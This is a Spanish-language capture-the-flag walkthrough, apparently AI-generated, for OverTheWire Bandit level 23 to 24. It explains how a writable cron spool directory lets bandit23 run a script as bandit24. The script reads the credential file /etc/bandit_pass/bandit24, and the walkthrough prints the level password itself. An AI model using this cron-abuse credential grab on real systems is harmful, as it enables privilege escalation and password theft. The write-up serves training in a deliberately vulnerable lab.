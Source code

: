 A continuación se muestra el walkthrough corregido en formato Markdown, que reproduce exactamente la solución efectiva para avanzar del nivel 23 al 24:

---

# Walkthrough Bandit Level 23 → Level 24

Este walkthrough te guía paso a paso para aprovechar el cronjob que ejecuta un script en el sistema y obtener la contraseña del usuario **bandit24**.

---

## 1. Conéctate al Servidor

Inicia sesión en el servidor de Bandit como **bandit23** (usa la contraseña obtenida en el nivel anterior):

```bash
ssh bandit23@bandit.labs.overthewire.org -p 2220
```

---

## 2. Verifica la Existencia del Cronjob

Lista el contenido del directorio de cronjobs para identificar el archivo relevante:

```bash
ls -l /etc/cron.d/
```

Deberías ver, entre otros archivos, **cronjob_bandit24**:

```
-rw-r--r-- 1 root root 120 Sep 19 07:08 cronjob_bandit24
```

Luego, revisa el contenido del archivo:

```bash
head /etc/cron.d/cronjob_bandit24
```

**Salida:**

```
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

*Esto confirma que el script `/usr/bin/cronjob_bandit24.sh` se ejecuta al reiniciar y cada minuto, como el usuario **bandit24**.*

---

## 3. Revisa el Script Ejecutado por Cron

Visualiza el contenido del script para comprender su funcionamiento:

```bash
cat /usr/bin/cronjob_bandit24.sh
```

**Salida:**

```bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

### Puntos Clave:

- La variable `myname` se define usando `whoami`.  
  *Como el script se ejecuta como **bandit24**, el directorio utilizado es `/var/spool/bandit24/foo`.*

- El script recorre todos los archivos en ese directorio y, **si el archivo es propiedad de bandit23**, lo ejecuta (con un timeout de 60 segundos) y luego lo elimina.

- Aunque no puedes listar el contenido de `/var/spool/bandit24/foo` por permisos, sí puedes escribir en él.

---

## 4. Crear el Script Malicioso

El objetivo es que el cronjob de **bandit24** ejecute un script que copie la contraseña de **bandit24** (ubicada en `/etc/bandit_pass/bandit24`) a un archivo en `/tmp/`.

Desde tu sesión de **bandit23**, crea el script en el directorio `/tmp`:

```bash
echo "cat /etc/bandit_pass/bandit24 > /tmp/certa_test.txt" > /tmp/24.sh
```

Luego, hazlo ejecutable:

```bash
chmod +x /tmp/24.sh
```

*Importante:* Al crear el script de esta forma, aseguras que **bandit23** es el propietario, lo cual es imprescindible para que el cronjob lo ejecute.

---

## 5. Copiar el Script al Directorio de Ejecución del Cronjob

Aunque no puedas listar el contenido de `/var/spool/bandit24/foo`, tienes permisos para escribir en él. Copia el script allí:

```bash
cp /tmp/24.sh /var/spool/bandit24/foo/
```

Con esto, el archivo `/var/spool/bandit24/foo/24.sh` (propiedad de **bandit23**) estará listo para ser ejecutado por el cronjob.

---

## 6. Espera a que Cron Ejecute el Script

El cronjob se ejecuta cada minuto. Espera hasta que se dispare (aproximadamente 60 segundos). Durante la ejecución, el script copiará la contraseña de **bandit24** a `/tmp/certa_test.txt`.

---

## 7. Verifica la Contraseña

Una vez transcurrido el tiempo, comprueba el contenido del archivo generado:

```bash
cat /tmp/certa_test.txt
```

**Salida esperada:**

```
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

Esta es la contraseña del usuario **bandit24**.

---

## 8. Conéctate al Siguiente Nivel

Utiliza la contraseña obtenida para acceder a **bandit24**:

```bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
```

Cuando se te solicite, ingresa la contraseña `gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`.

---

## Consideraciones Finales

- **Exactitud en el Script:**  
  La línea dentro del script debe ser exactamente:
  
  ```bash
  cat /etc/bandit_pass/bandit24 > /tmp/certa_test.txt
  ```
  
  para asegurar que se copia la contraseña correctamente.

- **Permisos y Propietario:**  
  Es fundamental que el script sea propiedad de **bandit23**, ya que el cronjob verifica el propietario antes de ejecutarlo.

- **Directorio con Permisos de Escritura:**  
  Aunque no puedas listar el contenido de `/var/spool/bandit24/foo`, esto no impide que puedas escribir en él.

---

Con estos pasos en formato Markdown, se reproduce exactamente la solución probada y se llega al objetivo de obtener la contraseña del siguiente nivel. ¡Buena suerte en tu avance al nivel 24!